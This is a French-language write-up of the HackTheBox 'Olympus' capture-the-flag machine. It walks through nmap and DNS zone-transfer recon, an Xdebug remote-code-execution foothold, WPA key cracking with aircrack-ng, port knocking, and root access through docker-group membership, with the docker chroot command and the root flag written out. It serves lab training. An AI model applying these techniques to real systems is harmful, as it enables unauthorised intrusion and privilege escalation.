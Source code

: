 ```yaml
---
title: "HackTheBox - Olympus"
description: olympus.png
tags: ["Dans cet article je vous présente ma writeup pour Olympus."]
---
```


Bonjour à tous, je vous présente mon **write-up** qui porte sur la machine **Olympus** de **HackTheBox** qui était assez cool et qui m'a apprit des choses que je n'avais jamais vu auparavant surtout dans un CTF. Elle n'est pas difficile mais très intéréssante et amusante à root... 😀

# Recon

## Nmap
  
```bash
# Nmap 7.91 scan initiated Fri Jan 29 17:30:12 2021 as: nmap -sC -sV -oA nmap -Pn olympus.htb
Nmap scan report for olympus.htb (10.10.10.83)
Host is up (0.13s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
| dns-nsid: 
|_  bind.version: Bind
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    Bind
80/tcp   open     http    Apache httpd
|_http-server-header: Apache
|_http-title: Crete island - Olympus HTB
2222/tcp open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-City of olympia
| ssh-hostkey: 
|   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
|   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
|_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.91%I=7%D=1/29%Time=60143823%P=x86_64-unknown-linux-gnu%r
SF:(DNSVersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0
SF:\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=1/29%Time=6014381E%P=x86_64-unknown-linux-gnu
SF:%r(NULL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\r\n");
```


Nous pouvons voir que le serveur contient 3 ports ouverts:
1. Port 53 (Serveur DNS)
2. Port 80 (Serveur Web Apache)
3. Port 2222 (Serveur SSH)

### Enumération Serveur DNS

Commencons par intérroger le serveur DNS afin d'afficher l'opcode mnémotechnique **AXFR** avec **dig**. La requete AXFR ne renvoie rien d'intéréssant, cependant un autre nom de domaine peut etre important...

![dig](https://i.imgur.com/IvHQg4g.png)

### Enumération Serveur Web

###### Web Dir

![webdir](https://i.imgur.com/njBhSKT.png)

Rien n'a été trouvé.

###### HTTP Headers

En regardant les headers des requetes et réponses HTTP on sait maintenant que **Xdebug 2.5.5** est en marche sur la machine, ce qui peut permettre aux développeurs de déboguer à distance.

![headers](https://i.imgur.com/UPfH78c.png)

Après quelques recherches, on s'apercoit que cette librairie est touché par une [RCE](https://paper.seebug.org/397/), ce qui va nous permettre d'avoir un premier foothold sur la machine. 😇

# Exploitation

Nous allons utiliser un [script python](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py) déjà présent sur GitHub pour plus de rapidité et facilité.

![rce_script](https://i.imgur.com/qTLDi5R.png)

Nous pouvons maintenant executer des commandes en www-data sur la cible, il ne reste plus qu'a executer un reverse shell. 😎

![rce_shell](https://i.imgur.com/XDHlNPz.png)

Enfin, nous avons un shell sur la machine cible ! 

# Pivot to Olympia container

La présence d'un .dockerenv certifie bien le fait que nous sommes dans un container Docker.

![dockerenv](https://i.imgur.com/KpJtQ8w.png)

Avec une énumération un peu plus appronfondie, nous avons un fichier .cap de capture réseau associé à un .txt de la part de Zeus. Nous allons donc le transférer sur notre machine local afin de l'étudier avec Wireshark.

![presence&transfert_cap](https://i.imgur.com/XLbOkkM.png)

###### Analyse .cap

Plusieurs solutions sont possibles:

1. Regarder les strings qui correspondent à l'hexdump du fichier .cap avec xxd et strings.
2. Ouvrir le fichier via Wireshark

![analyse_cap](https://i.imgur.com/CDPomUA.png)

###### Cracking WPA key

À partir d'un SSID nous pouvons tenter de casser la clé **WPA** de ce AP sans fil avec **aircrack-ng**

![crack_key](https://i.imgur.com/orzve4A.png)

La clé est dans la wordlist rockyou donc ca n'a pas été très difficile pour l'a casser.

J'ai eu des difficultés pour comprendre que après cette étape, nous devons deviner que icarus était en effet un utilisateur du serveur SSH.

![ssh_connexion](https://i.imgur.com/RcgLtEb.png)

On se retrouve une nouvelle fois à l'intérieur d'un container Docker.

# Pivot to Hades / Olympus

Un document .txt dans le répertoire courant révèle un nouveau nom de domaine pour la machine.

Je vais l'ajouter à ma liste de VHOST:

```bash
127.0.0.1  localhost
127.0.1.1  host
10.10.10.83	olympus.htb	ctfolympus.htb
```

Lors de la phase initiale d'énumération, j'avais essayé de faire un transfert de zone mais on avait rien trouvé, avec le nouveau nom de domaine nous aurons peut etre un retour.

![zonetransfer_ctf](https://i.imgur.com/CJuhzRQ.png)

Nous avons des informations en or dans les **records TXT**. 

###### Port Knocking

Durant notre scan nmap, nous avons vu que le port 22 était filtré. 
On obtient maintenant les credentials d'un utilisateur nommé prometheus, ainsi que des numéros pour aller au portail d'Hadès qui sont concrètement les numéros de port sur lesquels nous devons nous connecter pour réaliser un **Port Knocking** afin de se connecter à l'utilisateur prometheus.

Pour cela c'est très simple nous allons executer une boucle for en bash pour automatiser la chose dans le temps imparti:

```bash
for nuts in 3456 8234 62431; do nmap -p $nuts 10.10.10.83; done; ssh prometheus@10.10.10.83
```

Ensuite nous pouvons nous connecter avec le mot de passe obtenu auparavant. 🤠

![port_knocking](https://i.imgur.com/tJ5fJMj.png)

# Privilege Escalation

Pour conclure cette machine plaisante, l'éscalation de privilèges est très simple.
Prometheus est dans le **groupe "docker"**. De plus, le client Docker exige des droits root donc je vais exécuter un shell à partir d'une image du Docker Hub:

```bash
prometheus@olympus:~$ docker run -it olympia bash
root@f388364ddf48:/#
```

À noter que nous pouvons aussi monter la racine du système de fichiers local dans cette image comme le réfère [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell):

```bash
prometheus@olympus:~$ docker run -v /:/mnt --rm -it olympia chroot /mnt bash
root@421e0ac051c7:/# cd /root && ls
root.txt
root@421e0ac051c7:~# cat *
aba486990e2e849e25c23f6e41e5e303
```

Voila nous sommes enfin root ! 🙂
